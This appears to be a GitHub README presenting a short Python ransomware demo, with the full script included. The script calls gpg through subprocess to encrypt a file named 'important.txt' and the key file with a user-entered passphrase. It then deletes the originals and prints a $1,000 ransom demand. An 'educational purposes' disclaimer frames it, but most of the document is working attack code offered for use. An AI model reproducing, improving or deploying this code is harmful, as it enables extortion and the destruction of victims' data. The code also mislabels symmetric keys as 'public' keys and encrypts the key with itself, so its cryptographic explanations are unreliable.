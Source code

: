 # Python - Symmetric Key Encryption with GPG using Subprocess

## Information
### DISCLAIMER
```
DISCLAIMER:
This is a snippet showing the utilisation of subprocess to encrypt a file with the GNU GPG application automatically "remotely" as a ransomware utility.

This is meant to be for educational purposes only. 

Please do not attack anyone unethically (of course) and without permission unless explicitly allowed to do so.
```

## Setup
### Pre-Requisites
+ A test file named "important.txt"

### Dependencies
+ gpg

## Documentation
### Steps
1. The program will request the attacker to enter a (Public) Key for the attacker to use to encrypt the 'important' file via Symmetric Key Encryption (i.e. AES) in the victim/target machine
2. Program will save the key into a text file named "key.txt"
3. Program will automatically use the key text to encrypt the file "important.txt" with gpg via "--passphrase"
4. Program will automatically use the key text to encrypt the key file "key.txt" with gpg via "--passphrase"
5. Program will automatically delete the original "important.txt"
6. Program will automatically delete the original "key.txt"
7. Program will display a ransomware message

## Usage
- Launch this on a test directory with "important.txt"
    ```python
    #!/bin/python3
    """
    :: Assumptions
    1. An attacker breaks into a victim/target machine that can run GPG
    2. Attacker puts her public key (key used to encrypt via Symmetric Key Encryption - AES) into the victim/target machine
    3. The victim/target has a file named "important.txt" in his root directory (you can write anything)

    :: Tactic
    - use subprocess to execute gpg to encrypt the file 'important.txt' with Symmetric Encryption - AES
    """
    import os
    import sys
    import subprocess
    import socket

    key_fname = "key.txt"
    victim_fname = "important.txt" # Victim has a file named "important.txt" in his root directory (can contain anything)
    ciphertext_file = "encrypted_message.asc"
    ciphertext_key = "encrypted_key.asc"
    def get_Key():
        """
        Get Key for Symmetric Key Encryption
        """
        key = input("Please enter a key for AES Symmetric Key Encryption > ")
        with open(key_fname, "w") as write_Key:
            write_Key.write(key)
            write_Key.close()
        return key

    def encrypt_Symmetric(key, passphrase, output):
        """
        Encrypt using Symmetric Key Encryption in ASCII format with custom output

        :: Params
            -c | --symmetric : Encrypt a file with Symmetric Encryption
            -a | --armor : To produce an ASCII text file (armor)
        """
        cmd_str = "gpg -c --armor --batch --passphrase {} --output {} {}".format(key, passphrase, output) # gpg command to encrypt the file 'important.txt' with Symmetric Key Encryption (AES) using the key generated
        cmd = cmd_str.split(" ")
        print("Command to Execute : {}".format(cmd))
        process = subprocess.Popen(cmd, stdout=subprocess.PIPE) # Return the process object to the variable 'process' for communication

        # Start communication with process and retrieve the standard output (index 0) and standard error (1)
        res = process.communicate()[0]

        # Return the standard output
        return res

    def remove_File(f_name):
        if os.path.isfile(f_name):
            os.remove(f_name)

    def main():
        """
        1. Asks attacker to type a key (Private Key for Symmetric Encryption via AES) and 
            - save it to a file named key.txt
        """
        print("1. Getting Public Key for Symmetric Key Encryption")
        key = get_Key()
        print("Key : {}".format(key))
        
        print("")

        """
        2. Encrypt the file 'important.txt' using the key that the attacker selected in step 1)
            - The format of the resulting ciphertext should be ASCII
                - Has a file extension '.asc' at the end
                - Call the ciphertext file 'encrypted_message.asc'
        """
        print("2. Encrypting : {}".format(victim_fname))
        res = encrypt_Symmetric(key, ciphertext_file, victim_fname)
        print("Encryption Complete.")
        
        print("")

        """
        3. Encrypt file "key.txt" using the attacker's public key (the key that the attacker selected in step 1)
            - The format of the resulting ciphertext should be ASCII
                - Has a file extension '.asc' at the end
                - Call the ciphertext 'encrypted_key.asc'
        """
        print("3. Encrypting : {}".format(key_fname))
        res = encrypt_Symmetric(key, ciphertext_key, key_fname)
        print("Encryption Complete.")

        print("")

        """
        4. Delete file 'key.txt'
        """
        print("4. Remove : {}".format(key_fname))
        remove_File(key_fname)
        print("{} removed.".format(key_fname))

        print("")

        """
        5. Delete file 'important.txt'
        """
        print("5. Remove : {}".format(victim_fname))
        remove_File(victim_fname)
        print("{} removed.".format(victim_fname))
        
        print("")

        """
        6. Display a message for ransom - "Your file important.txt is encrypted. To decrypt it, you need to pay me $1,000 and send encrypted_key.asc to me"
        """
        print("Your file {} is encrypted. To decrypt it, you need to pay me $1,000 and send {} to me.".format(victim_fname, ciphertext_key))

        print("")


    if __name__ == "__main__":
        main()
    ```
    

